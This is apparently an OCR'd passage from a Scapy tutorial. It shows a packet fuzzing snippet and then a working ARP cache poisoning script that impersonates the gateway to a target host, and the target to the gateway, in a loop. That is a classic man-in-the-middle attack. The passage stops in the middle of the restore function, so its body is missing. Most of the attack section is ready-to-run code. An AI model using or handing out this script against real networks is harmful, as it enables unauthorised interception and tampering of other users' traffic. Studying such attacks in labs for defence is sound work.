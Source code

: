 #### 3. Packet Fuzzing and Generation

```python
# Generate a series of packets with varying TTLs
packets = [IP(dst="192.168.1.1", ttl=ttl)/ICMP() for ttl in range(1, 30)]

# Send all packets
send(packets)

# Use fuzzing operators
fuzz_packets = IP(dst="192.168.1.1", proto=fuzz(IP).proto)/Raw(load="X"*100)
```

### Example: Advanced Network Spoofing

This example demonstrates how to use Scapy to conduct sophisticated network spoofing attacks:

#### 1. ARP Cache Poisoning Script

```python
#!/usr/bin/env python3
from scapy.all import *
import sys
import time

def arp_poison(target_ip, gateway_ip, interface="eth0"):
    """
    ARP poison the target to impersonate the gateway
    """
    # Get the MAC addresses
    target_mac = getmacbyip(target_ip)
    gateway_mac = getmacbyip(gateway_ip)
    
    if not target_mac:
        print(f"[-] Could not get target MAC for {target_ip}")
        return
    if not gateway_mac:
        print(f"[-] Could not get gateway MAC for {gateway_ip}")
        return
    
    print(f"[*] Target MAC: {target_mac}")
    print(f"[*] Gateway MAC: {gateway_mac}")
    
    # Craft the spoofed ARP packets
    # Tell target that we are the gateway
    target_packet = ARP(op=2, psrc=gateway_ip, pdst=target_ip, hwdst=target_mac)
    # Tell gateway that we are the target
    gateway_packet = ARP(op=2, psrc=target_ip, pdst=gateway_ip, hwdst=gateway_mac)
    
    print(f"[*] Beginning ARP poison attack...")
    try:
        while True:
            # Send the spoofed ARP packets
            send(target_packet, verbose=0)
            send(gateway_packet, verbose=0)
            time.sleep(2)
    except KeyboardInterrupt:
        print("[*] Stopping ARP poison attack...")
        # Restore the network by sending correct ARP packets
        restore_target(target_ip, gateway_ip, target_mac, gateway_mac)

def restore_target(target_ip, gateway_ip, target_mac, gateway_mac):
    """
    Restore normal ARP operations
    """
```